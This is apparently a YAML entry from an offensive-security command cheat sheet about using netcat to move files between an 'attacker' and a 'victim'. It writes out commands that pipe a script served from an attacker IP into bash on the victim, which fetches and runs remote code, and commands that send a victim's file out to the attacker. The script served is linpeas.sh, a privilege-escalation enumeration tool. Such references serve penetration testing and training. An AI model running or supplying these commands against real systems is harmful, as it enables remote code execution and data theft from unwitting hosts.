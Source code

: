 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

    Port: 9001

    IP address: 10.10.21.14

command: |
  nc -lvnp 9001 < linpeas.sh

code: |
  Copy from attacker to victim:  
  nc -lvnp 9001 < linpeas.sh (attacker) 
    
  nc 10.10.21.14 9001 | bash (victim)

  Copy from victim to attacker: 
  nc 10.10.21.14 9001 < file.txt (victim)
    
  nc -lvnp 9001 > file.txt (attacker)

items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

